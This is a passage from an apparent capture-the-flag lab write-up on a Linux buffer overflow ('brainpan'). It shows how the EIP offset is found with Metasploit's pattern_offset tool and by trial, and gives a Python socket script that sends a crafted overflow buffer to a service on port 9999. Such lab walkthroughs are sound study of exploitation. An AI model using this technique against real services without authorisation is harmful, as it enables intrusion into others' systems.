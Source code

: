 - We inspect the value of `EIP`:

![](/assets/img/thm/linux/brainpan/pattern.png)

- We give this value to `pattern_offset.rb` to compute the exact number of characters needed to crash the program: 

```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41357141
[*] Exact match at offset 495
```

#### Method#2: manually

Since I saw the message _"529 bytes copied to buffer"_ on the debug console, I tried many values (525, 500, ...) until I found **495** was the exact offset.

```python
import socket
import time
import sys

offset = 495
buffer = b"A" * offset + b"B" * 4
target = '127.0.0.1'
port = 9999

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send((b"                          >> " + buffer))
s.close()
```

By placing `BBBB` at the end of my payload, I thought: _"I will find the offset after `EIP`'s value will be `42424242`"_:
